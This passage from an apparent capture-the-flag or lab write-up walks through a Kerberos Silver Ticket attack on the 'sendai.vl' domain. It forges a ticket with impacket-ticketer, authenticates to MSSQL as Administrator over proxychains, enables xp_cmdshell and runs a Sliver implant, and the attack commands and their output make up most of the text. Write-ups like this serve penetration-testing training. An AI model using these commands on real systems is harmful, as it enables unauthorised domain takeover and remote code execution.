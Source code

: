 Now that we have access to the MSSQL ticket, we'll need to craft our Silver ticket in order to authenticate as the Administrator user.

In order to do this, we'll need a few objects relative to domain identification.

* The domain SID - `S-1-5-21-3085872742-570972823-736764132` (Can be found in Bloodhound).
* The NT Hash of the SQL service account - (Can be crafted using web tools like [this](https://codebeautify.org/ntlm-hash-generator) along with SQLSVC's plaintext password).
* The SPN our service account has - `MSSQL/dc.sendai.vl`.
* The name of the user we want to impersonate - Administrator.

Putting this all together, you should receive a command similar to the below.

```
└─$ proxychains4 impacket-ticketer -domain-sid S-1-5-21-3085872742-570972823-736764132 -nthash 58655C0[...snip...]78C2D96A -spn MSSQL/dc.sendai.vl -dc-ip 10.10.98.227 -domain sendai.vl Administrator
......
[*] Saving ticket in Administrator.ccache
```

We can then set our Kerberos authentication global variable on Kali to be directed to the ticket file that was generated. This will then be followed by our authentication attempt into MSSQL through our proxy.

```
└─$ export KRB5CCNAME=Administrator.ccache

└─$ proxychains4 impacket-mssqlclient -k dc.sendai.vl
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  dc.sendai.vl:1433  ...  OK
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SENDAI\Administrator  dbo@master)> 
```

Now that we are authenticated to MSSQL in the context of Administrator (we still only have the privileges of `SQLSVC`), we can enable command execution using the `enable_xp_cmdshell` tool that comes built into this client.

```
SQL (SENDAI\Administrator  dbo@master)> enable_xp_cmdshell
[*] INFO(DC\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

Let's now run `xp_cmdshell` to execute local commands and execute our Sliver implant we put on the filesystem earlier.

```
SQL (SENDAI\Administrator  dbo@master)> xp_cmdshell powershell "cd C:\temp; .\sendai.exe"
```
